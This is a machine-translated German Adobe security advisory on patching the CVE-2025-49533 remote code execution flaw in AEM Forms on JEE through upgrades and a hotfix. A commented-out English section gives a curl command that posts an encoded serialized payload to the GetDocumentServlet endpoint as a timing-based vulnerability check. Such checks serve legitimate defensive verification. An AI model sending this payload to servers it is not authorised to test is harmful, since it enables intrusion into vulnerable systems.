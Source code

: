 ```yaml
---
title: Schwachstelle bei der Ausführung von Remote-Code für AEM Forms on JEE beheben (CVE-2025-49533)
description: Schwachstelle bei der Ausführung von Remote-Code für AEM Forms on JEE beheben (CVE-2025-49533)
contentOwner: khsingh
products: SG_EXPERIENCEMANAGER/6.5/FORMS
solution: Experience Manager, Experience Manager Forms
feature: Developing
role: Admin
source-git-commit: 4d7f0609173b4a2315877024d803da00e6654a23
workflow-type: tm+mt
source-wordcount: '721'
ht-degree: 1%

---
```



# Schwachstelle bei der Ausführung von Remote-Code für AEM Forms on JEE beheben (CVE-2025-49533)

Dieses Dokument enthält Anleitungen zum Beheben eines kritischen Sicherheitsproblems (CVE-2025-49533) in AEM Forms on JEE, das möglicherweise eine nicht autorisierte Code-Ausführung über ein ungesichertes Servlet ermöglichen könnte.

## Grundlegendes zu AEM Forms-Bereitstellungstypen

Diese Sicherheitslücke wirkt sich auf verschiedene AEM Forms-Bereitstellungen unterschiedlich aus. Um die entsprechenden Schritte zur Risikominderung zu bestimmen, ist es von entscheidender Bedeutung, den Bereitstellungstyp zu verstehen.

### Betroffene Version

* Alle AEM Forms on JEE-Versionen von 6.0 bis 6.5 sind von dieser Sicherheitslücke betroffen. Derzeit werden nur AEM Forms 6.5 und die zugehörigen Service Packs gewartet und unterstützt. Alle anderen Versionen (6.0-6.4) haben das Ende der Lebensdauer (End of Life, EOL) erreicht.

### Versionen korrigieren

* AEM 6.5 Forms Service Pack 23 mit Hotfix, der bereitgestellt wird, um die Sicherheitslücke zu beheben.

### Kobereitgestellte und eigenständige AEM Forms on JEE-Bereitstellungen im Vergleich

**Co-Deployed (AEM Forms + CQ EAR):**

* Sowohl AEM Forms JEE als auch AEM (CQ) Author und Publish Enterprise Application Archive (EAR) werden gemeinsam auf demselben Anwendungsserver bereitgestellt
* Bietet eine einheitliche Umgebung mit Forms-Funktionen und AEM Content Management

**AEM Forms on JEE, eigenständig:**

* AEM Forms wird nur mit JEE-Komponenten und ohne AEM EAR auf dem Anwendungsserver bereitgestellt.
* Beschränkung auf JEE-spezifische Funktionen und Funktionen von AEM Forms

### Ermitteln des Bereitstellungstyps

Um den Bereitstellungstyp endgültig zu bestimmen, überprüfen Sie, welche Artefakte tatsächlich auf dem Anwendungsserver bereitgestellt werden. In der Regel, aber nicht beschränkt auf , über die Administration-Console des Servers.

**Ko-bereitgestellte Indikatoren:**

* Der `/lc`-Endpunkt ist auf Ihrem Server verfügbar (z. B. `https://your-server/lc`)
* Sie können auf AEM-Autoren-/Veröffentlichungsendpunkte zugreifen.
* Die URL-Struktur enthält AEM-Pfade wie `/content/`, `/apps/`, `/etc/`
* Neben Forms stehen Funktionen für das Content-Management von AEM zur Verfügung

**Eigenständige Indikatoren:**

* Es sind nur Admin-Benutzeroberflächen verfügbar
* Keine AEM-Autoren-/Veröffentlichungsfunktion
* Auf Forms JEE-spezifische URLs und Benutzeroberflächen beschränkt


## Betroffene Versionen

| Produkt | Versionen, die gemildert werden müssen | Für Hotfix geeignete Versionen |
|---------|-----------------------------|-----------------------------|
| Adobe Experience Manager 6.5 Forms on JEE | Alle eigenständigen Installationen von Adobe Experience Manager 6.5 Forms on JEE | AEM 6.5 Service Pack 18 bis Service Pack 23 |

## Auflösung

### Versionsspezifische Lösungen

| AEM Forms-Version | Erforderliche Aktion |
|---|---|
| AEM 6.5 Forms Service Pack 18 - Service Pack 22 mit gemeinsam bereitgestelltem AEM Author oder Publish EAR | [Upgrade auf AEM 6.5 Service Pack 23 oder höher](/help/release-notes/release-notes.md) |
| AEM 6.5 Forms Service Pack 18 - Service Pack 23 ohne AEM Author oder Publish EAR gemeinsam bereitgestellt (für eigenständige Bereitstellung von AEM Forms auf JEE) | [Hotfix anwenden](#apply-the-hotfix) |
| AEM 6.5 Forms Service Pack 17 und früher | &#x200B;1. [Upgrade auf AEM 6.5 Service Pack 23 oder höher](/help/release-notes/release-notes.md) <br> 2. Wenden Sie bei eigenständigen AEM Forms on JEE[Bereitstellungen den Hotfix an](#apply-the-hotfix). |

> **Hinweis**: AEM Forms unterstützt offiziell nur die sechs neuesten Service Packs. Benutzer älterer Versionen sollten zunächst ein Upgrade auf das neueste Service Pack durchführen und dann die erforderlichen Sicherheitsmaßnahmen implementieren.

## Überlegungen zur Bereitstellung

### Für Cluster-Umgebungen

Beim Arbeiten mit einer Clusterbereitstellung:

* Anwenden der Hotfix-Installation **alle Knoten** im Cluster
* Konsistenz durch Verwendung identischer Hotfix-Versionen auf allen Servern
* Aktualisierungen auf allen Knoten abschließen, bevor ein Service-Neustart gestartet wird
* Überprüfen Sie die Fehlerbehebung für jeden Knoten unabhängig mithilfe der Überprüfungsschritte

### Für Umgebungen mit einem Knoten

Bei der Arbeit mit einer eigenständigen Bereitstellung von AEM Forms on JEE:

* Vereinfachter Prozess, da keine zusätzlichen Knoten zu verwalten sind
* Führen Sie alle Hotfix-Installationsschritte wie angewiesen aus

<!-- ## Vulnerability Verification

Before implementing the fix, verify if your system is vulnerable by executing the following tests:

### Test Commands

#### 1. Test with Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=H4sIAAAAAAAAAK1WTWxbRRCetR3bsZI2P80fhf4HkpS%2Bl5C2aXFEyA9tXV5IUEw4%2BGCtnxfnlffX3X3E6YEDElKvCC4ckRAcKIdISFQckLhy5gRCQkLigAQcygGp4md2nxOnIWqSNpH8dndmd76Zb2dmc%2Bc3aBEc%2Bm7Qt6gRScc1FrkTcEeuvRqxiH3w%2FegX96feWU9CogAp4dxiFuTswAsppzLgEnotddJUJ83ZTXm%2BHgJAAg2fDXjNoCG1V5iB57zAF0aFUV8dEMYMzpqnfv7o9q%2Fi1MfXEpB4AOUmvA3EgmzIg5BxuSahK0Z1qV8zlyR3%2FBoiItrUDmh24LrMlk4837ApjAZuxWVND%2B7%2F%2BeHgXX99IgFQDyV0BJEMI7kY4zpMrKYwrCQCPY%2BWDBH5xhbAOkV%2FDMeXjPvUNerClbYhOa0bReaFLpVMFHBsfX3hG%2F%2FOZ%2BNJSBegvez4VebLVyKvwngBDpXxgC9cJgsor5cgV66sSWYHVSYkJEulmRKky7ZLBS67SltomFWyvAUtZZ96TFGWsqCzvD2CB2%2BsKY9vDP7Fv4hroJf%2FHuip1X6IuVC3ifJEaebOvb6%2F0tniTw1x%2BtK3%2F3z1Naqfg%2FEMjBEYXxOBYNyhrhnSNTegVRFjXaXVGpPizJKMKsVGkIvxjgykCLyIlJpIqYmUmjGlpqbU3KDU1JSaPPKl4zFzuiKQLFtuGMtAmsARHZwTmEvaB%2BeWumACHbFLy4wLTITXCnMEyHUC7bOYFZL6cpm6EWv5%2FMT799778Y8XCKQnHd%2BROEkODS8TSM3iBeQgCR1t0AbtBA5bjs%2FiSyvGCF1WYCMARRhcN4QpueIIAhesRyAlT6BVJ8MbAfcI8CFrrwTNLcznSzvu9tzmXtEgiPEmV6pKrlG%2F6jKeV3HnXqrbLNS1k4EBApf36sJGLJvnCWSrgR15mOsEzu0rFDy6EvuEVM48fmAEPtkfl7siVqVnzhXnp%2BuOKKBId8AD4T%2FrNMypHHoULwhkGtwRmD4A5nJLQcRtdsVR2d3WyF5D1RwuC77PuO5DDNPlGQLHd0l7At07JD6GPWm7jfrraHa44gpnqleMEHyyXMZCrK%2Bh68PLbfAsnMvBWTCwoJcktd%2Bcp2GjAJ9serC4it6NTYxdnLh8cfzC%2BbFRbFbHrIfp83ASsAPgrwV%2FT0AGsji2ql4IOUjhHHsBfg%2BhxMSR4Ngy8iUcXtdbOvGb1kITuvDbFm%2BAbuyVgPMe6MVdfThXpvq1mSn1vijtdhPntYkTsbJhArRXR7UeQ4Wn8IQye%2Bx%2FZgt6tYPZS9rsSKzc0exxBE3o2Uk4hfBZGN4MWq2Vrv1TSBKrs%2Fv2u3fBXNebR3UgROlPa8wzMIhjTtP0NAxBa6TeqA7c%2B93mC3I0AwkCp3drlleCQL8YW3JjoXID3%2FjHfwFu%2FuL8Puld7T%2FoF2Bw1xcAg9pffQ3spb6SaPahWUz2nsWT27L4iNb36G%2BvTrjYXD%2BCtOJ%2FTymsKB6uEqirm26v%2FwfLba%2FhawoAAA%3D%3D
```

#### 2. Test with Non-Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=1234
```

**Note**: Replace `${FORMS_HOST}` with your actual Forms server hostname and port.

### Vulnerability Confirmation
* **Vulnerable System**: Response time ≥ 5 seconds for exploitable payload
* **Secure System**: Response time ~600ms for both payloads
* **Indicator**: Significant difference in response times confirms the vulnerability -->

## Schritte zur Risikominderung

### Für Server mit gemeinsam bereitgestelltem CQ EAR

* Überprüfen, ob AEM EAR in Ihrer JEE-Instanz gemeinsam bereitgestellt wird
* Wenn AEM EAR-Autoren- oder -Veröffentlichungsinstanz gemeinsam bereitgestellt wird, [aktualisieren Sie auf AEM 6.5 Service Pack 23 oder höher](/help/release-notes/release-notes.md)

### Für Server ohne CQ-EAR-Bereitstellung (AEM Forms on JEE, eigenständig)

#### AEM Forms-Version überprüfen

1. Stellen Sie sicher, dass Sie administrativen Zugriff auf AEM Workbench haben.
1. [Stellen Sie sicher, dass ](https://experienceleaguecommunities.adobe.com/t5/adobe-experience-manager/how-find-the-aem-forms-version-using-the-aem-admin-or-system/m-p/603733) AEM Forms-Version über AEM 6.5 Forms Service Pack 18 bis Service Pack 23 verfügt.

#### Hotfix anwenden

1. **Hotfix herunterladen:**
   * Greifen Sie auf Adobe Software Distribution zu, um den [Hotfix](https://nam04.safelinks.protection.outlook.com/?url=https%3A%2F%2Fexperience.adobe.com%2F%23%2Fdownloads%2Fcontent%2Fsoftware-distribution%2Fen%2Faem.html%3Fpackage%3D%2Fcontent%2Fsoftware-distribution%2Fen%2Fdetails.html%2Fcontent%2Fdam%2Faem%2Fpublic%2Fadobe%2Fpackages%2Fcq650%2Fhotfix%2FAEM%25206.5%2520Unauthenticated%2520RCE%2520in%2520LiveCycle&data=05%7C02%7Ckhsingh%40adobe.com%7Cf29c8505258840beed0408ddbe2956ff%7Cfa7b1b5a7b34438794aed2c178decee1%7C0%7C0%7C638875806949179671%7CUnknown%7CTWFpbGZsb3d8eyJFbXB0eU1hcGkiOnRydWUsIlYiOiIwLjAuMDAwMCIsIlAiOiJXaW4zMiIsIkFOIjoiTWFpbCIsIldUIjoyfQ%3D%3D%7C0%7C%7C%7C&sdata=0GELRBKwhkAFB6fmXNIsbsruBXquhhWX1BMGySEZutY%3D&reserved=0) herunterzuladen.
   * Speichern Sie die Hotfix-Datei auf Ihrem lokalen Computer
   * Überprüfen der Integrität der heruntergeladenen Datei

2. **Installieren des Hotfixes:**
   * **AEM Workbench öffnen**
   * Herstellen einer Verbindung mit dem betroffenen AEM Forms-Server
   * Navigieren Sie zu **Fenster → Ansicht → Komponenten anzeigen**
   * Klicken Sie mit der rechten Maustaste in die Komponentenansicht und wählen Sie „Komponente installieren“
   * Hotfix-Datei durchsuchen und auswählen
   * Folgen Sie den Anweisungen des Installationsassistenten und warten Sie auf den Abschluss

3. **Warten und validieren:**
   * Warten Sie, bis alle Dienste vollständig initialisiert wurden

#### Fehlerbehebung

**Häufige Probleme:**

* Überprüfen, ob alle AEM Forms-Services ordnungsgemäß gestartet wurden
* Überprüfen Sie die Anwendungs-Server-Protokolle auf Installationsfehler.

